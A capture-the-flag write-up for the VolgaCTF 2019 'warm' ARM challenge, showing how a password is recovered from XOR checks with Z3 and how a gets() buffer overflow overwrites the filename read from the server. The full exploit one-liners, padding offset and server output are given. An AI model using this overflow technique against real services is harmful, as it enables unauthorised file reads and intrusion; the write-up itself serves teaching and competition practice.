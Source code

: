 # warm
pwn

## Challenge 

How fast can you sove it? nc warm.q.2019.volgactf.ru 443

[warm](warm)

## Solution

Decompiled. We notice sub_788() handles the input text.

We know length is 15 or less

	if (strlen(*(r7 + 0x4)) <= 0xf) {

And we need to fulfil the following if-statements
	
	if (((((((((zero_extend_32(*(int8_t *)(r7 + 0xf) ^ *(int8_t *)*(r7 + 0x4)) == 0x55) && (zero_extend_32(*(int8_t *)(*(r7 + 0x4) + 0x1) ^ *(int8_t *)*(r7 + 0x4)) == 0x4e)) && (zero_extend_32(*(int8_t *)(*(r7 + 0x4) + 0x2) ^ *(int8_t *)(*(r7 + 0x4) + 0x1)) == 0x1e)) && (zero_extend_32(*(int8_t *)(*(r7 + 0x4) + 0x3) ^ *(int8_t *)(*(r7 + 0x4) + 0x2)) == 0x15)) && (zero_extend_32(*(int8_t *)(*(r7 + 0x4) + 0x4) ^ *(int8_t *)(*(r7 + 0x4) + 0x3)) == 0x5e)) && (zero_extend_32(*(int8_t *)(*(r7 + 0x4) + 0x5) ^ *(int8_t *)(*(r7 + 0x4) + 0x4)) == 0x1c)) && (zero_extend_32(*(int8_t *)(*(r7 + 0x4) + 0x6) ^ *(int8_t *)(*(r7 + 0x4) + 0x5)) == 0x21)) && (zero_extend_32(*(int8_t *)(*(r7 + 0x4) + 0x7) ^ *(int8_t *)(*(r7 + 0x4) + 0x6)) == 0x1)) && (zero_extend_32(*(int8_t *)(*(r7 + 0x4) + 0x8) ^ *(int8_t *)(*(r7 + 0x4) + 0x7)) == 0x34)) {
	if (zero_extend_32(*(int8_t *)(*(r7 + 0x4) + 0x9) ^ *(int8_t *)(*(r7 + 0x4) + 0x8)) == 0x7) {
	if (zero_extend_32(*(int8_t *)(*(r7 + 0x4) + 0xa) ^ *(int8_t *)(*(r7 + 0x4) + 0x9)) == 0x35) {
	if (zero_extend_32(*(int8_t *)(*(r7 + 0x4) + 0xb) ^ *(int8_t *)(*(r7 + 0x4) + 0xa)) == 0x11) {
	if (zero_extend_32(*(int8_t *)(*(r7 + 0x4) + 0xc) ^ *(int8_t *)(*(r7 + 0x4) + 0xb)) == 0x37) {
	if (zero_extend_32(*(int8_t *)(*(r7 + 0x4) + 0xd) ^ *(int8_t *)(*(r7 + 0x4) + 0xc)) == 0x3c) {
	if (zero_extend_32(*(int8_t *)(*(r7 + 0x4) + 0xe) ^ *(int8_t *)(*(r7 + 0x4) + 0xd)) == 0x72) {
	if (zero_extend_32(*(int8_t *)(*(r7 + 0x4) + 0xf) ^ *(int8_t *)(*(r7 + 0x4) + 0xe)) == 0x47) {

Simplify

    // array = input_from_user;
    variable = 0x23;

    if ((((((((((variable ^ array) == 0x55) && 
        ((array[0x1] ^ array) == 0x4e)) && 
        ((array[0x2] ^ array[0x1]) == 0x1e)) && 
        ((array[0x3] ^ array[0x2]) == 0x15)) && 
        ((array[0x4] ^ array[0x3]) == 0x5e)) && 
        ((array[0x5] ^ array[0x4]) == 0x1c)) && 
        ((array[0x6] ^ array[0x5]) == 0x21)) && 
        ((array[0x7] ^ array[0x6]) == 0x1)) && 
        ((array[0x8] ^ array[0x7]) == 0x34)) {
    
    if ((array[0x9] ^ array[0x8]) == 0x7) {
    if ((array[0xa] ^ array[0x9]) == 0x35) {
    if ((array[0xb] ^ array[0xa]) == 0x11) {
    if ((array[0xc] ^ array[0xb]) == 0x37) {
    if ((array[0xd] ^ array[0xc]) == 0x3c) {
    if ((array[0xe] ^ array[0xd]) == 0x72) {
    if ((array[0xf] ^ array[0xe]) == 0x47) {

Solve using Z3

	$ python3 /Users/manzelseet/Downloads/z3-4.8.0.99339798ee98-x64-osx-10.11.6/solve.py 
	array__1 at 0x1 = 56
	array__2 at 0x2 = 38
	array__0 at 0x0 = 118
	array__11 at 0xb = 70
	array__12 at 0xc = 113
	array__8 at 0x8 = 101
	array__6 at 0x6 = 80
	array__4 at 0x4 = 109
	array__14 at 0xe = 63
	array__5 at 0x5 = 113
	array__13 at 0xd = 77
	array__15 at 0xf = 120
	array__10 at 0xa = 87
	array__9 at 0x9 = 98
	array__3 at 0x3 = 51
	array__7 at 0x7 = 81
	flag = v8&3mqPQebWFqM?x
	flag (hex) = 763826336d71505165625746714d3f78

And we can use the payload

	v8&3mqPQebWFqM?x

Put to server

	$ nc warm.q.2019.volgactf.ru 443
	Hi there! I've been waiting for your password!
	test
	Incorrect! Try again!

	Hi there! I've been waiting for your password!
	v8&3mqPQebWFqM?x
	Seek file with something more sacred!

---

Now, there is a second part to this

Inside the main function...

	int sub_9ec(int arg0, int arg1) {
		//... setup buffer ...
	    do {
	            do {
	                    sub_8f0(r7 + 0x78);
	                    puts("linux-armhf.so.3" + 0xa24);
	                    gets(r7 + 0x14);
	                    if (sub_788(r7 + 0x14) == 0x0) {
	                        break;
	                    }
	                    sub_978(0x1, 0x0);
	            } while (true);
	            *(r7 + 0xc) = fopen(r7 + 0x78, 0xbb0);
	            if (*(r7 + 0xc) != 0x0) {
	                break;
	            }
	            sub_978(0x2, r7 + 0x78);
	    } while (true);
	    //... prints out txt file ...
	    return r0;
	}

Notice that gets() is used. We can override the filename to be read

	# python -c 'from pwn import *; print "v8&3mqPQebWFqM?x" + cyclic(100)' | nc warm.q.2019.volgactf.ru 443
	Hi there! I've been waiting for your password!
	Unable to open vaaawaaaxaaayaaa file!
	Hi there! I've been waiting for your password!
	^C

	# pwn cyclic -l vaaa            
	84

Try out

	# python -c 'from pwn import *; print "v8&3mqPQebWFqM?x" + cyclic(84) + "flag.txt"' | nc warm.q.2019.volgactf.ru 443
	Hi there! I've been waiting for your password!
	Unable to open flag.txt file!

Works but we need to guess filename

	# python -c 'from pwn import *; print "v8&3mqPQebWFqM?x" + cyclic(84) + "./flag"' | nc warm.q.2019.volgactf.ru 443
	Hi there! I've been waiting for your password!
	Seek file with something more sacred!
	
	# python -c 'from pwn import *; print "v8&3mqPQebWFqM?x" + cyclic(84) + "sacred"' | nc warm.q.2019.volgactf.ru 443
	Hi there! I've been waiting for your password!
	VolgaCTF{1_h0pe_ur_wARM_up_a_1ittle}


Less guessing please... Filename is sacred `-.-`

## Flag

	VolgaCTF{1_h0pe_ur_wARM_up_a_1ittle}
